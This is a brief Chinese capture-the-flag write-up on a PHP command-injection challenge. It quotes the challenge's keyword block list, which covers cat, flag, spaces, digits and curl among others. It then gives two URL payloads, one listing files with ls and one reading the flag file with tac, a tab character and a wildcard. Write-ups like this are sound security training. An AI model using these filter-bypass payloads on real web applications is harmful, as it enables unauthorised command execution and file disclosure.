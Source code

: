 ![image-20240120130620027](照片/image-20240120130620027.png)

过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i"
```

没有影响

查看flag位置

```
?c=ls%26
```

![image-20240120130747697](照片/image-20240120130747697.png)

构建命令

```
?c=tac%09fla?.php%26
```

得到flag
